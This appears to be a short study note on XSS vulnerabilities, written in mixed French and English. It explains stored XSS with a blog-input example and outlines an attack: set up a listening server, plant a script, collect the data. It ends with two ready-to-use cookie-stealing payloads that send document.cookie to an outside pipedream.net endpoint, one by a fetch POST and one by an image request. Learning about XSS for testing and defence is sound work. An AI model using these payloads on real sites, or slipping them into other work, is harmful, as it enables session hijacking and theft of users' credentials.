 Les faille xss sont des faille généralement de Javascript, qui apparaissent lorsque qu'un input user est utiliser directement sur le code html sans correction OU quand il y a une url avec un parametre non protéger.

un exemple simple serait d'utiliser un script simple : `<script>alert(hello)</script>` dans un chat mal sécuriser

## XSS STORED
There is two type of xss flaws , and one of these is the stored xss flaws.

Stored xxs flows occur when the input of the user is directly stored in the db which means when someone else will interact with the db it will execute the code on his web client.

For exemple : 
Imagine a blog where u have an input which will store your exact input in the db then display the input in html code.

What you can do is for exemple : 
- create a server / domain name / url which will listen on http request.
- put a script in the db via the input
- get the data from your script on your servers request
---


Here are some example of xxs script for getting cookies :
	To send a post request with the cookie in the body : 
	`<script> fetch('https://eolyqf07jmav0tu.m.pipedream.net', {method: 'POST', mode: 'no-cors', body:document.cookie });</script>`
	To send a get request via an image :
	`<script>document.write('<img src="https://eolyqf07jmav0tu.m.pipedream.net/?c='+document.cookie+'" />');</script>
`